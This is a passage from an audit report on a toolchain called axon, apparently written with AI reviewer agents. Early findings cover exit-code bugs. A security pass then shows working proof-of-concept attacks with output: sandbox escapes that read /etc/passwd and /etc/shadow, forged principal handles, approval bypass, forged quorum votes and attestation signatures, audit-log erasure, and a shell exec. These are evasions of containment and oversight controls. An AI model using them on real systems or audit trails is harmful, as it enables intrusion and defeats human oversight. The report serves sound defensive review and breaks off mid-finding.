**Recommendation:** Either implement the meter/offline gate in codegen (a per-fn counter and an `__axon_ai_policy_halt` extern exiting 5, mirroring the existing verify/refine exit paths) or E0910-refuse any fn carrying `@[ai(policy(budget:))]`/`fallback:` — the same sound-by-refusal treatment already applied to the tier. Refusing is a one-line change and matches how corrigible/kernel/sandbox builtins are handled; silently building is the one option that is unsound.

#### [HIGH] Exit codes 9 (resource-bound) and 10 (coalition-bound) are advertised in `axon-os --help` but have no producer outside tests
*crates/axon-os/src/cli.rs* · kind: `unreachable-exit-code` · confidence: high

`axon-os --help` prints: "Exit codes: 0 ok, 2 usage/malformed, 4 halted (kill-switch), 6 refine, 7 budget, 8 capability/denied, 9 resource-bound, 10 coalition-bound, 11 tamper/divergence, 12 containment-violation".

`Verdict::ResourceBound` and `Verdict::CoalitionBound` are only ever constructed by `resource_bound_verdict` / `coalition_bound_verdict` (crates/axon-os/src/corrigible.rs:25-30). Every caller of those two functions is a test:

  $ grep -rn "resource_bound_verdict|coalition_bound_verdict" crates/ --include=*.rs
  crates/axon-os/tests/r27_acceptance.rs:327,354,391,415
  crates/axon-os/src/corrigible.rs:25,29 (defs), 79,86 (its own #[cfg(test)] mod)

Same for the machinery underneath: every caller of `Ledger::carve`, `Coalition::carve_for_member`, and `propose_vote` is inside a `mod tests` in the same file. The `--coalition ROOT` flag is parsed into `let mut _coalition` and never read (crates/axon-os/src/cli.rs:191, 210-213 — the underscore name is the tell, with the comment "future use").

So the R27 resource-carve caps and coalition ceilings are dead code from any binary's perspective, and no invocation of any shipped binary can produce exit 9 or 10.

**Recommendation:** Either wire the ledger carve + coalition rollup into `cmd_run`'s grant path (so a job exceeding its carved resource cap actually exits 9 and `--coalition` actually enforces a ceiling), or remove 9/10 from the `--help` table and mark R27's resource/coalition slices as unshipped in the status docs. Shipping a help table that names unreachable codes is worse than omitting them — operators write branches against it.

#### [HIGH] Exit 12 (R29 containment violation) is unreachable for real guest effects — the supervisor env_clears AXON_AUDIT_LEDGER so the monitored ledger is never written
*crates/axon-os/src/runtime.rs* · kind: `unreachable-exit-code` · confidence: high

R29's spec (governance/specs/R29-continuous-compliance-monitor.md:95-105) draws the dataflow as: guest action → `AXON_AUDIT_LEDGER.jsonl` → monitor reads new lines → kill file → exit 12. But `AxonCoreRuntime::run_sandboxed` spawns the guest with `cmd.env_clear()` and then re-adds only `AXON_SEED` and `PATH` (crates/axon-os/src/runtime.rs:336-342). Nothing in axon-os ever sets `AXON_AUDIT_LEDGER`, and the interpreter only writes the ledger when that var is set (crates/axon-core/src/interp/builtins.rs:219, 4249).

A guest doing 4000 file reads under a policy that allows only `net`:

  $ axon-os run reader.axjob --out mon2 --monitor net --ledger mon2/led.jsonl
  ✓ completed (value=0)  (run-id: run, record: .../mon2/run.json)
  exit=0
  $ ls mon2/
  run.axjob  run.json  run.monitor.kill        <- led.jsonl was never created

Exporting `AXON_AUDIT_LEDGER` in the parent shell does not help — `env_clear()` strips it; the file still does not exist after the run. The mechanism itself works if something external writes the file (I forced it and got the expected `🛑 HALTED ... / axon-os: R29 CONTAINMENT VIOLATION ... / exit=12`), which is exactly what the r29 tests do — so the test suite is green over a path production never takes.

Second, latent defect on the same path: the interpreter's ledger writes `"effect":"FS"|"Net"|"AI"|"Exec"` (crates/axon-core/src/interp/builtins.rs:23-25; confirmed by running `AXON_AUDIT_LEDGER=... axon run`, which emitted `{"seq":0,...,"effect":"FS","operation":"read_file",...}`). The monitor lowercases to `fs`, but the spec's and `--help`'s vocabulary is `fs_read`/`fs_write`. Even once wired, `--monitor fs_read,fs_write` would deny-by-default on the first file read.

**Recommendation:** Set `cmd.env("AXON_AUDIT_LEDGER", &ledger_path)` alongside AXON_SEED when `--monitor` is active, reconcile the two effect vocabularies (either emit fs_read/fs_write from the interpreter or alias fs→{fs_read,fs_write} in the monitor), and replace the r29 test that hand-writes ledger lines with one that drives a real `axon-os run` end to end and asserts exit 12.

#### [MEDIUM] Exit codes 10, 11, 12 mean different things in axon-os and axon-vm, and the "confirmed free" comment only checked one crate
*crates/axon-vm/src/main.rs* · kind: `duplicated-exit-code` · confidence: high

Two shipped binaries in the same workspace assign incompatible meanings to the same numbers:

  axon-os (verdict.rs:47-55):  10 = coalition-bound, 11 = tamper/replay-divergence, 12 = containment-violation (monitor.rs:240)
  axon-vm (main.rs:45-59):     10 = attestation mismatch (process::exit(10) at :799, :935),
                               11 = "TCB chain break, unused today",
                               12 = EXTENDED_TCB_MEASURE_FAIL (:716, :962),
                               13/14/15 = quorum-blocked / vote-attestation / chain-verify

The axon-vm comment reads "Confirmed free of the existing axon-vm exit codes (1, 2, 10, 12) and of R34's separately-reserved 15 before being claimed" — the audit was scoped to axon-vm only and never consulted axon-os's table. `axon deploy --quorum-dir` shells out to `axon-vm`, so a single pipeline can surface both numbering schemes.

**Recommendation:** Add one workspace-level exit-code registry (a governance doc plus a shared `axon-exit` crate of constants) and have both binaries import from it. Move axon-vm's codes into a band that does not overlap axon-os (its 13/14/15 already are), or namespace them explicitly in the docs.

#### [MEDIUM] main's return value occupies the entire carved code space, and 256 silently becomes exit 0
*crates/axon-core/src/interp.rs* · kind: `exit-code-collision` · confidence: high

`axon run` propagates `main`'s i64 verbatim, so a clean program is indistinguishable from every fault class:

  main()=3   -> exit 3    (== VERIFY_FAILED)
  main()=4   -> exit 4    (== HALTED)
  main()=5   -> exit 5    (== AI_POLICY)
  main()=6   -> exit 6    (== REFINE_VIOLATION)
  main()=7   -> exit 7    (== GOAL_BUDGET)
  main()=8   -> exit 8    (== SANDBOX_VIOLATION)
  main()=12  -> exit 12   (== CONTAINMENT_VIOLATION)
  main()=101 -> exit 101  (== panic)
  main()=256 -> exit 0    <- a program returning 256 reports SUCCESS
  main()=300 -> exit 44

Native agrees on all of these (I checked 256/300 against the AOT binary), so this is a design property, not a divergence. It is also the direct cause of the two critical axon-os findings above: runtime.rs:373-376 explains the stderr sniffing exists precisely because "a program returning 7 is NOT budget exhaustion". The doc comments on each constant claim "a supervisor can branch on X specifically" — which is not true for any supervisor that also sees main's return.

**Recommendation:** Reserve the carved range: clamp/refuse `main` returns in 3..=12 (a static W or E at check time), or map main's value through a non-colliding transform (e.g. `min(v,2)` plus a structured status channel). At minimum, correct the six constants' doc comments, which currently overstate the guarantee.

#### [MEDIUM] Deploy-gate rejection exits 3 from `axon goal` but 1 from `axon deploy` — the same failure class, two codes
*crates/axon-core/src/main.rs* · kind: `inconsistent-contract` · confidence: high

crates/axon-surface/src/compile.rs:297-305 hardcodes exit 3 for a redteam rejection with an explicit rationale: "a redteam rejection is a *policy* rejection ... so it exits 3 (VERIFY_FAILED_EXIT_CODE), NOT 1. This unifies every goal deploy-gate rejection (verify, redteam, future gates) under one exit class ... Pre-#34 this returned 1, conflated with an ordinary failure." There is a test locking it in (`redteam_rejection_exits_with_the_policy_code_3`).

  $ axon goal examples/goals/redteam-goal.md
  best score: 91 (target 90)
  REDTEAM FAILED: blocking deploy
  exit=3     <- as designed

But `cmd_deploy`'s own gate chain (crates/axon-core/src/main.rs:5443-5469) ends in `process::exit(1)`:

  dep.ax: fn redteam_check() -> bool { false }   fn main() -> i64 { println("deployed!")  0 }
  $ axon deploy dep.ax
  deploy: dep.ax — BLOCKED at gate 'redteam_check' (exit 1)
    stages run: redteam_check
  exit=1
  $ axon deploy dep.ax --json
  {... "status":"blocked_gate","gate":"redteam_check","exit_code":1, ...}

A supervisor following BUG_HUNT #34's stated contract (branch on 3 = "policy blocked deploy") misses every `axon deploy` block.

**Recommendation:** Make `cmd_deploy`'s blocked-gate path exit `VERIFY_FAILED_EXIT_CODE` (3) to match the surface-compiler contract, and add a CLI test asserting it — the existing test only covers the generated-source side.

#### [MEDIUM] scripts/exit_code_parity.sh — the only exit-code gate — covers just 0, 6, and 101; codes 3, 4, 5, 7, 8 have zero parity coverage
*scripts/exit_code_parity.sh* · kind: `test-coverage` · confidence: high

I ran it and it is green:

  $ bash scripts/exit_code_parity.sh
  OK assert_false/assert_eq_bad/div_zero/oob_index: both exit 101
  OK clean_zero: both exit 0
  OK return_seven: both exit 7          <- main's return, not GOAL_BUDGET
  OK refine_* (7 cases): both exit 6
  OK refine_ok/ret_ok/struct_ok/let_ok: 120 / 105 / 10 / 3   <- main's returns
  exit_code_parity: native==interp on all exit codes
  exit_code_parity: PASS

Every non-101/0 case is either code 6 or a plain `main` return. Nothing tests exit 3 (verify) even though codegen implements it, and nothing tests 4/5/7/8 — which is exactly why the native AI-policy divergence above has been shipping. The harness's own trailing claim "native==interp on all exit codes" is false as written. Combined with the already-established fact that the parity suite only runs under `gate.sh --strict` and CI never invokes gate.sh, there is no automated guard on this dimension at all.

**Recommendation:** Add rows for verify-fail (3, both engines), and refusal-parity rows asserting that codegen E0910-refuses corrigible/kernel-goal/sandbox rather than building something that exits differently. Add an AI-policy row (E1300 offline and E1301 budget) — it fails today, which is the point. Reword the summary line to name the codes actually covered.

#### [LOW] `axon test` with failing tests exits 3, colliding with VERIFY_FAILED_EXIT_CODE in the same binary
*crates/axon-core/src/main.rs* · kind: `exit-code-collision` · confidence: high

crates/axon-core/src/main.rs:4076: `process::exit(if failed == 0 { 0 } else { 3 });`

  $ axon test t.ax
  test test_bad ... FAILED
    assertion failed: 1 != 2
  test result: FAILED. 0 passed, 1 failed (0ms total)
  exit=3

Same binary, same number, two unrelated meanings: "a @[verify] postcondition was rejected" and "some unit tests failed". Any harness that shells out to `axon` and branches on 3 as a policy rejection (which the constant's own doc comment invites) will misread a failing test run.

**Recommendation:** Give `axon test` a distinct non-carved code (1 is the conventional test-failure code and is already generic), or document 3 as subcommand-scoped in a single exit-code registry.

#### [LOW] Native @[verify] diagnostic says "confidence" for predicates written over `value`
*crates/axon-core/src/codegen/mod.rs* · kind: `interp-native-divergence` · confidence: high

Exit code agrees (3 on both engines) but the message does not, and the native one is factually wrong about which quantity failed:

  @[verify(value < 0)]  fn score(x: i64) -> i64 { x }   fn main() -> i64 { score(42) }

  interp:  axon: verify failed: verify failed in `score`: value 42 < 0 is false (value 42, input 42)
  native:  axon: verify violation in `score`: confidence < 0 failed (actual=42)

Same for `@[verify(value > 100)]` → native prints "confidence > 100 failed". The subject word is hardcoded rather than taken from the predicate. Cosmetic for the exit contract, but misleading in logs and a latent trap given how much of this codebase classifies runs by matching stderr prose.

**Recommendation:** Thread the predicate's subject token through to the native panic message so it reads `value`/`confidence` as written.

#### [LOW] `SANDBOX_VIOLATION_EXIT_CODE` doc claims the program continues with an Err; it actually aborts the process
*crates/axon-core/src/interp.rs* · kind: `doc-behavior-mismatch` · confidence: high

crates/axon-core/src/interp.rs:244-248: "The tool call is refused; the sandbox and the enclosing program continue with an `Err` result." Observed behavior is a whole-process abort:

  $ axon run e8.ax
  axon: sandbox violation: builtin `println` requires effect `IO` which is not in the active sandbox's allowed set {} (principal handle 0)
  exit=8

The enclosing program does not continue and no Err is produced. This matters because F5's stated use case is running AI-generated tools where the host is supposed to survive a refused tool call — as implemented, one bad tool kills the agent.

**Recommendation:** Decide which semantics is intended and align the other. If abort is intended, fix the comment; if resumable refusal is intended, `sandbox_run` should return `Err` and reserve exit 8 for an unhandled propagation.

#### [LOW] `axon --help` documents no exit codes at all, despite the binary defining six carved ones
*crates/axon-core/src/main.rs* · kind: `documentation` · confidence: high

`axon --help` is 32 lines and the only occurrences of "exit" are incidental (in the `verify` subcommand blurb). Codes 3/4/5/6/7/8 exist only as Rust doc comments on constants in interp.rs. `axon-os --help` is the only place a table is printed — and per the findings above, three of its ten entries (9, 10, 12) name codes no invocation can produce.

**Recommendation:** Print the carved table in `axon --help` and source both tables from one shared registry so they cannot drift from the constants or from each other.

---
## Pass 7 — specialist review (run `wf_fd75a2a7` resumed, 3 agents, high effort)
Lenses: security (attacker who has read the source), OS/kernel engineering, low-level performance. Each agent was primed with the confirmed findings from passes 4–6 and told not to re-report them.


### Pass-7 spot-verification (orchestrator, independent of the reporting agents)

Pass 7 returned the highest criticals-per-agent density of the whole cycle (6 from
3 agents), so three of its six criticals were hand-checked against source before
being accepted. **All three confirmed.**

1. **`axon-attest verify_report` never verifies the signature — CONFIRMED.**
   `crates/axon-attest/src/lib.rs:191-225`. The function has exactly three checks:
   `report.signature.is_empty()` (step 1), a measurement-digest equality (step 2), and
   an `axtcb1` string equality (step 3), then `Ok(())`. Nothing consumes
   `report.signature` beyond the emptiness test, and `hw_root` is never read at all.
   A report with `signature = b"x"` and a copied digest/axtcb1 verifies. The
   doc-comment on `try_admit_job` calls this a "MANDATORY attestation gate" — it is a
   digest comparison wearing an attestation's clothes.

2. **Guest policy parser fails open — CONFIRMED.**
   `crates/axon-guest-kernel/src/mmds.rs:41` declares
   `static mut ALLOWED_EFFECTS: EffectSet = EffectSet(0xFF); // open by default`, and
   every miss path in `parse_policy` (`cmdline_phys == 0`, `axon.policy=` absent)
   returns `set_open_policy()`. The failure direction of a security boundary is
   all-eight-effects-granted, and the kprintln even narrates it (`"open policy"`).

3. **Principal handles are dense `Vec` indices — CONFIRMED.**
   `crates/axon-core/src/kernel.rs:86` (`principals: Vec<Principal>`), with `push` at
   :115/:151 and `get(handle)` at :135/:157/:171/:189/:208. A handle is a position, so
   a child created by attenuation at index N reaches its own parent by naming N-1.
   There is no capability unforgeability here — only a convention.

The pattern across all three is the same and worth naming: **the check that exists is
not the check that was claimed.** A signature field that is only tested for emptiness,
a policy default that is `0xFF`, and a capability that is an array subscript each pass
their own tests while providing none of the guarantee the surrounding docs assert.
This is the same class as the vacuous-gate findings in Pass 6 — a guard whose shape is
right and whose content is absent — which suggests the class is systemic rather than
three unlucky sites.

### Security — attacker with source — 8 findings (3C/4H/0M/1L)
> **Verdict:** The static capability walker is genuinely well-hardened against syntactic laundering, but every trust boundary built ON TOP of it — approval, risk gating, quorum, principals, and the audit ledger — is unauthenticated and bypassable; I escaped the sandbox two ways and forged root privileges, an approval, and a unanimous quorum in single-digit lines each.
>
> I built the fast interpreter and wrote/ran ~15 exploit programs. I first probed the documented laundering routes (impl methods, named effect handlers, closures returned across the boundary, `use`-form module imports, dynamic paths) and found them all correctly closed — the walker's over-approximation-by-name is sound and `read_file(<dynamic path>)` fails closed. So I moved up a layer to the machinery the walker feeds, and that is where everything breaks: the capability graph is built exclusively from `Expr::Call`/`MethodCall` name edges, so the interpreter's eleven string-keyed dispatch sites (`self.fns.get(name)` in interp/builtins.rs:116, :2832 and eight in interp/goal.rs) are invisible call edges — `scheduler_spawn("evil",1)` and `sandbox_run(sb,"evil",7)` both punched straight out of `@[contained(fs: [], net: [], exec: none)]` with `axon check` exiting 0. Separately, the approval hash is written and never read anywhere in the workspace, principal handles are raw `Vec` indices, quorum votes carry no signature field at all, and the tamper-evident ledger is opt-in and fails open. Every finding below was executed, with real output pasted into the detail.

#### [CRITICAL] Human approval is never bound to the artifact — approve a benign file, deploy anything
*crates/axon-core/src/main.rs:4988-5012,5355-5356,5690* · kind: `approval-chain-toctou` · confidence: high

`axon ast approve` (crates/axon-core/src/main.rs:4988-5012) computes an FNV-1a hash of the source and writes it into `<file>.ax.approved`. `axon deploy` (main.rs:5355-5356) then does exactly this and nothing more: `let is_approved = approved_path.exists();`. A workspace-wide grep confirms the recorded `hash` field is written at main.rs:5004 and read by NO code anywhere. The approval is a marker file, not a commitment.

Executed end to end:
```
$ axon ast approve benign.ax
approved: benign.ax (hash 817d06c17125)
  approval record: benign.ax.approved
$ cat benign.ax.approved
{"schema":"axon-ast-approved/1","file":"benign.ax","hash":"817d06c17125d0fc","approved_at_unix":1785560325}

# attacker now rewrites the file the human signed off on:
#   fn main() { let secret = read_file("/etc/passwd"); println("EXFIL: {secret}") }

$ axon deploy benign.ax --json
EXFIL: Ok(root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
... [full /etc/passwd printed] ...
cklaus:x:1000:1000:,,,:/home/cklaus:/bin/bash
)
{"schema":"axon-deploy/1","path":"benign.ax","status":"deployed","exit_code":0,"risk":"low","stages_run":["redteam_check"],"approved":true}
exit=0
```
The deploy record asserts `"approved":true` for a program the approver never saw. This is the Acid-Test-2 flow (`intent compile → ast review → ast approve → deploy`) and the axon-web UI proxies the same CLI, so the web approval pane inherits the hole verbatim. Secondarily, even once the hash IS checked, FNV-1a is a non-cryptographic 64-bit hash (main.rs:5690) and is trivially collided — it cannot carry an approval commitment.

**Recommendation:** At deploy, re-hash the source and compare against the `.approved` record; refuse (non-zero exit, `approved:false`) on mismatch or missing record rather than warning. Replace `fnv1a_hex` with SHA-256 (sha2 is already a direct dependency of axon-core). Ideally the approval record should also cover the resolved module closure, not just the entry file, since `mod`/`use` bytes are separately mutable.

#### [CRITICAL] @[contained] sandbox escape via string-named indirect dispatch (scheduler_spawn, sandbox_run, goal_run family)
*crates/axon-core/src/capabilities.rs:620-712 (walker); crates/axon-core/src/interp/builtins.rs:116,2832; crates/axon-core/src/interp/goal.rs:33,109,255,349,446,521,630,1277* · kind: `capability-laundering` · confidence: high

`capabilities::check_expr` builds the capability graph purely from `Expr::Call`/`Expr::MethodCall` *name* edges (crates/axon-core/src/capabilities.rs:620-712). But the interpreter dispatches user functions by STRING at eleven sites: `self.fns.get(fn_name)` at interp/builtins.rs:116 (`scheduler_spawn`) and :2832 (`sandbox_run`), plus eight in interp/goal.rs. To the walker those are just `Expr::Literal(Str(..))` arguments — no call edge exists, so the callee's body is never checked against the caller's spec. This defeats the whole transitive-follow design the file's comments describe as "a sandbox must not be escapable by moving the forbidden I/O one function call away".

Vector 1 — `scheduler_spawn`:
```
@[contained(fs: [read("./data/")], net: [], exec: none)]
fn sandboxed() -> i64 { let f = scheduler_spawn("evil", 1)  scheduler_run() }
```
```
$ axon check l2.ax
warning: [W0006] unused variable `f` ...
exit=0                      <-- NO E1001
$ axon run l2.ax
EXFIL len=892               <-- /etc/shadow read from inside the sandbox
NET attempted: http_get requires the asi-runtime feature or a network-capable host
result 1
```

Vector 2 — `sandbox_run` (the builtin advertised as the *runtime* enforcement counterpart):
```
@[contained(fs: [], net: [], exec: none)]
fn sealed() -> i64 {
  let p = principal_root("attacker", true, true, true, 1000)
  let sb = sandbox_create(p, "FS,Net,Exec,AI,IO")
  sandbox_run(sb, "evil", 7)
}
```
```
$ axon check l6.ax
exit=0                      <-- NO E1001
$ axon run l6.ax
EXFIL via sandbox_run: gpumaster
7
$ axon deploy l6.ax --json
{"schema":"axon-deploy/1",...,"status":"deployed","exit_code":0,"risk":"low","stages_run":[]}
```
There is no runtime backstop for `@[contained]` (it is a compile-time-only gate by design), so a static miss is a total escape. I verified this is a genuine gap and not a general weakness: the documented routes — impl methods, `handler NAME = handler {...}` named handlers, closures constructed outside and invoked inside, `use mod.{f}` imports, and dynamically-built paths — all correctly produce E1001.

**Recommendation:** Treat a string-literal argument in the fn-name position of `scheduler_spawn`/`sandbox_run`/`goal_run*`/`kernel_goal_*` as a call edge in `check_expr` and `collect_caps_expr`, resolving it through `fn_map` (a non-literal argument must fail closed, exactly as `read_file(<dynamic path>)` already does). Single-source the list of name-dispatching builtins next to `classify_call` so it cannot drift. Longer term this class recurs for every new builtin that takes a fn name, so a `BUILTINS` field marking the fn-name parameter index would be more durable than a hardcoded list.

#### [CRITICAL] Principal handles are dense Vec indices — attenuation defeated by `child - 1`
*crates/axon-core/src/kernel.rs:81-215* · kind: `forgeable-handle` · confidence: high

crates/axon-core/src/kernel.rs:86 stores `principals: Vec<Principal>` and mint/root return `self.principals.len() - 1` (lines 116, 152) as the handle. Every lookup (`get(handle)`, line 135/157/171/189/208) trusts a bare `i64`. The doc comment on `principal_mint` claims "ATTENUATION BY CONSTRUCTION — child cap_X = want_X ∧ parent.X (escalation unrepresentable)", but escalation is one subtraction away.

```
$ axon run h1.ax
root handle = 0   child handle = 1
child authorized for exec? false
forged handle = 0
forged authorized for exec? true
forged budget = 999995
escalated holds exec? true  budget 999995
audit now attributes actions to: root
```
The untrusted component was handed only the attenuated handle `1` (no caps, budget 5). It recovered its parent with `child - 1`, passed `principal_authorize(forged, true, true, true)` for the full cap set, read the root's 999,995-unit budget, minted itself a fresh full-capability principal off the forged parent, and finally called `principal_activate(forged)` so all subsequent audit records are attributed to `root`. Handles are dense and allocation-ordered, so brute-forcing the whole registry is a loop from 0.

**Recommendation:** Make handles unforgeable: either a random 64-bit nonce per principal held in a map (cheap, no type changes), or an affine opaque Handle value like the R13 native-FFI slab wrapper — the codebase already has the pattern. Ban raw arithmetic on principal handles at the type level so `child - 1` does not typecheck. Also gate `principal_activate` so a program cannot re-attribute audit records to a principal it was not handed.

#### [HIGH] R33 cross-VM safety quorum accepts unsigned, self-authored vote files
*crates/axon-vm/src/quorum/logic.rs:45-60* · kind: `unauthenticated-attestation` · confidence: high

`VoteResponse` (crates/axon-vm/src/quorum/logic.rs:45-60) has fields `voter_tcb`, `run_id`, `approved`, `reason`, `lineage_root` — and no signature, MAC, or key material of any kind. `axon deploy --quorum-dir` aggregates whatever `.vote` files are in the directory, and derives N from the file count, so the attacker controls both numerator and denominator.

Fabricated with five `printf` calls, no keys:
```
$ cat votes/peer1.vote
{"voter_tcb":"tcb-abc","run_id":"run-1","approved":true,"reason":"looks fine to me","lineage_root":"fake-org-1"}

$ axon deploy crit.ax --quorum-dir votes --json
CRITICAL-risk program deployed on forged unanimous consent
{"schema":"axon-deploy/1","path":"crit.ax","status":"deployed","exit_code":0,"risk":"critical",
 "stages_run":["simulate","stress","redteam_check","quorum"],"approved":false,
 "quorum":{"approvals":5,"blocking_reason":null,"coalition_size":5,"quorum_met":true,"required_n":5,...}}
```
The R27 per-lineage-root coalition cap does fire and correctly blocks a single forged vote (`coalition cap: 1 YES vote(s) excluded (lineage-root cap=0); 0/1 admitted`) — but `lineage_root` is itself an unauthenticated attacker-chosen string, so writing five distinct values (`fake-org-1..5`) walks straight past it. The cap defends against accidental uniformity, not against an adversary.

**Recommendation:** Sign votes: each voter signs `(run_id, artifact_hash, voter_tcb, lineage_root, approved)` with a key bound to its attested TCB measurement, and have `quorum check` verify signatures against a configured roster before counting. N must come from that roster, never from the file count. Until signatures exist, the quorum result should not be reported as a satisfied safety gate in `axon-deploy/1`.

#### [HIGH] Audit ledger: default log has zero integrity and is erasable by the audited program; the tamper-evident one is opt-in and fails open
*crates/axon-core/src/interp/provenance.rs:15-26; crates/axon-audit/src/lib.rs:396-415; crates/axon-core/src/main.rs:675-677* · kind: `audit-integrity` · confidence: high

Three separate integrity failures, all executed.

(1) The DEFAULT audit trail — the one `@[agent]` action records, `ai_call` replay records, `run_start`, and `axon trace`/`axon trace --ai` all use — is a plain NDJSON file at `$XDG_CACHE_HOME/axon/provenance.jsonl` (interp/provenance.rs:15-26) with no chaining and no access control. The audited program erases it:
```
BEFORE: 4 records
{"ts_ms":...,"fn":"do_thing","event":"agent_action","action":"write_file","caps_used":"fs:write","principal":"root",...}
... (x2 runs)
--- run the tampering program (@[agent] exfiltrate + cover_tracks) ---
rewriting audit ledger at .../cache/axon/provenance.jsonl
1
AFTER: 0 bytes remain
--- axon trace now reports:
# provenance: 0 matching records
```
The program simply did `env_var("XDG_CACHE_HOME")` + `str_join` + `write_file(p, "")`. Nothing in the pipeline notices.

(2) The tamper-evident SHA-256-chained ledger (crates/axon-audit) is only active if the operator exports `AXON_AUDIT_LEDGER` (main.rs:675-677). Absent that env var, `append_global` returns `Ok(0)` — explicitly commented "fail-open" (axon-audit/src/lib.rs:409-415). Auditing is off by default.

(3) Even when enabled, the chain has no anchor and detection fails open. Full truncation resets it silently:
```
=== ATTACK 2: truncate the ledger to zero bytes
exit=0
ledger now (4 entries):
{"seq":0,...,"prev_hash":"000...0","entry_hash":"bbd2f3c9..."}   <-- chain restarted from genesis, no error
```
Suffix truncation (dropping the last, incriminating entry) is likewise undetectable — the next append recomputes a valid `prev_hash` from the new tail. And when tampering IS detected, `set_ledger_path` prints a warning and leaves the global ledger `None`, so the run proceeds with auditing silently disabled:
```
axon-audit: failed to open ledger .../audit2.jsonl: tamper detected at seq 1: entry_hash mismatch
axon: run-id 19fbbb572b8-b3669232
axon exit=0
--- ledger entry count after the run: 4   (unchanged: FS + IO effects performed with ZERO audit records)
```
Corrupting one byte is therefore the cheapest denial-of-audit available. Note also that the `principal` field stamped into every entry comes from `principal_current_name()`, which the handle-forgery finding above lets any program set to `root`.

**Recommendation:** Make the chained ledger the default rather than opt-in, and fail CLOSED: a detected chain break or an unopenable ledger should abort the run, not downgrade to no auditing. Anchor the chain against suffix/full truncation by persisting the last `entry_hash` + `seq` outside the file (or requiring monotonic `seq` continuity across opens, refusing a restart at seq 0 for an existing ledger). Move the log out of a program-writable location, or open it with an fd the interpreter holds exclusively and deny `write_file` to that path. Retire the unprotected `provenance.jsonl` as an audit source, or chain it the same way.

#### [HIGH] Deploy risk derivation reads only declarations, so hiding capabilities LOWERS risk
*crates/axon-core/src/main.rs:5236-5283* · kind: `risk-gate-bypass` · confidence: high

`derive_risk_from_ast` (crates/axon-core/src/main.rs:5236-5283) inspects only `f.effect_row` and the textual args of the `contained` attribute — it never looks at a single call site, even though `capabilities::program_capabilities()` already computes exactly the real answer. It also walks only `Item::FnDef`, ignoring `Item::ImplBlock` methods. The incentive is exactly inverted: annotate honestly and you get the full pipeline; annotate nothing and you get a free pass.

A program that really spawns a shell and writes a file, with no annotations:
```
fn main() { match exec("sh", ["-c", "id > ./pwned.txt"]) { Ok(v) => println("exec ok")  Err(e) => ... } }
```
```
$ axon deploy risk_a.ax --json
exec ok
{"schema":"axon-deploy/1","path":"risk_a.ax","status":"deployed","exit_code":0,
 "risk":"low","stages_run":["redteam_check"],"approved":false}
$ cat pwned.txt
uid=0(root) gid=0(root) groups=0(root),993(kvm)
```
versus a program that merely DECLARES `| {Exec}` and does nothing at all:
```
$ axon deploy risk_c.ax --json
STRESS ran
warning: deploying at Risk critical with no --quorum-dir ...
{"...","risk":"critical","stages_run":["simulate","stress","redteam_check"]}
```
I also confirmed the `@[contained]` attribute-arg scan is dead code in practice: a fn carrying `@[contained(exec: any)]` still derived `risk: low`, because the spec is parsed into `f.contained` and the raw attr args the scanner reads are not populated.

**Recommendation:** Derive risk from `capabilities::program_capabilities(&program)` (fs:read/fs:write/net/exec/native:*), taking the max with any declared effect row and the `--risk` flag. Include impl-method bodies. Either fix or delete the `@[contained]` attr-arg scan at main.rs:5254-5270, which currently contributes nothing.

#### [HIGH] Deploy safety gates are supplied by the artifact under review — omitting them opens every gate
*crates/axon-core/src/main.rs:5358-5400* · kind: `fail-open-gate` · confidence: high

`cmd_deploy` runs its gate chain via `interp::run_named_fn_as_bool(&program, gate_fn)` for `simulate`/`stress`/`redteam_check`/`assert_deployable`, and main.rs's own comment states "A gate function that is absent is treated as 'passed' (open gate)". Those functions live in the very file being gated, so an adversarial artifact just does not define them:
```
fn declares() -> i64 | {Exec} { 0 }
fn main() { println("CRITICAL risk, zero gate functions defined") }
```
```
$ axon deploy nogates.ax --json
warning: deploying at Risk critical with no --quorum-dir — the R33 quorum gate is NOT enforced for this deploy
CRITICAL risk, zero gate functions defined
{"schema":"axon-deploy/1","path":"nogates.ax","status":"deployed","exit_code":0,
 "risk":"critical","stages_run":[],"approved":false}
exit=0
```
A Critical-risk deploy completed having run zero gates, exiting 0, with only an advisory stderr line. `stages_run: []` alongside `status: deployed` is the tell. Combined with the risk-derivation finding, an attacker gets Low risk *and* no gates. Even the redteam gate that Acid Test 4 demonstrates is self-attested by the code under test.

**Recommendation:** Fail closed: at Risk >= High a missing gate function should block the deploy, not open the gate. Better, gates should be supplied by the deploying operator (a separate policy file or a `--gates <path>` module) rather than read out of the artifact — a program cannot be its own red team. At minimum, make `stages_run: []` at Critical a non-zero exit, and treat the missing-quorum-dir warning as a block rather than a print.

#### [LOW] `axon check` green-lights programs that panic at runtime, weakening it as a review gate
*crates/axon-core/src/resolver.rs; crates/axon-core/src/interp/eval.rs:959* · kind: `review-gate-soundness` · confidence: high

`axon check`/`axon ast review` is the human-review step before approval, so a false green matters. Two constructs pass cleanly and then panic:

(a) a defined function referenced as a value — `fn evil(p: str) -> str {...} ... apply(evil, "/etc/shadow")` gives `check exit=0`, then `axon run` → `axon: panic: undefined identifier \`evil\``. (An *undefined* name in the same position is correctly caught as E0001, so this is specific to real fns, which the resolver accepts but the interpreter has no first-class value for.)

(b) qualified module calls — `mod util` + `util::helper("/etc/shadow")` gives `check exit=0` with no diagnostic at all, then `axon run` → `axon: panic: value of type util is not callable`. The `use util.{helper}` form works correctly and is properly capability-checked (it produced the expected E1001), so only the `::` path form is affected.

Neither is exploitable today — the interpreter refuses rather than executing — but both mean a reviewer can approve a program whose reviewed form is not its executed form.

**Recommendation:** Reject a bare reference to a named fn in value position with a clear diagnostic (or implement it), and reject or resolve `mod::fn(...)` call syntax at check time instead of deferring to an interpreter panic.

### OS + kernel engineering — 17 findings (3C/5H/6M/3L)
> **Verdict:** The R17 freestanding path is genuinely real — I booted both QEMU harnesses and the timer IRQ fired 193 times — but everything wrapped around it (the guest supervisor kernel's syscall gate, the R26/R31 attestation chain, the R34 run chain, and the R33 quorum) is demonstrably a facade: the gate's allow-path triple-faults, the policy parser fails open to all-effects on any parse error, attestation never checks a signature, and axon-vm reports ok:true for a guest that crashed 176 ms into boot.
>
> 

#### [CRITICAL] axon-attest verify_report never verifies the signature — forged reports (and fake hw_root="sev-snp") pass
*crates/axon-attest/src/lib.rs* · kind: `attestation` · confidence: high

crates/axon-attest/src/lib.rs:191-227 (`verify_report`) checks only that `signature` is NON-EMPTY, then compares `measurement.digest` and `measurement.axtcb1` to caller-supplied expectations. The HMAC is never recomputed and `hw_root` is never checked against anything. I built a probe against the real crate:

```
1) genuine report        -> Ok(())
2) FORGED sig b"A"       -> Ok(())
